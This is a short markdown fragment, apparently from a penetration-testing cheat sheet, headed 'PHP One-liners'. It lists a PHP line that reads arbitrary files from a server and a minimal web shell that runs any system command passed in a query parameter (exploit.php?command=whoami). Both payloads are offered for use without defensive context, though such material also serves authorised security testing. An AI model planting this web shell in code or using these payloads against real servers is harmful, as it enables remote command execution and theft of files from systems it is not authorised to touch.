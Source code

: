 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`



